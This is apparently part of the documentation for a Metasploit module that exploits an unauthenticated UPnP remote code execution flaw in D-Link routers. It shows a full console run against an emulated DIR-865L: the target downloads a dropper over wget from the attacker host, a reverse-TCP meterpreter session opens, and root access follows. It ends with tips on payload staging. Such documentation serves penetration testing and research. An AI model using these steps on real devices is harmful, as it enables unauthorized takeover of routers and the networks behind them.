 ### FirmAE D-Link DIR-865L Router Emulation Linux Dropper -  linux/mipsle/meterpreter_reverse_tcp
```ShellSession
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > set target 1
target => 1
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf6 exploit(linux/upnp/dlink_msearch_unauth_lan_rce) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[+] The target appears to be vulnerable. Product info: DIR-865L|1.07|A1|mipsle
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:8080/5W7O47FX
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Client 192.168.0.1 (Wget) requested /5W7O47FX
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.1:59600) at 2023-10-17 18:45:12 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Staged meterpreter payloads might core dump on the target, so use stage-less meterpreter payloads when using the Linux Dropper target.
Some D-Link devices do not have the `wget` command so configure `echo` as cmd-stager flavor with the command `set CMDSTAGER::FLAVOR echo`.
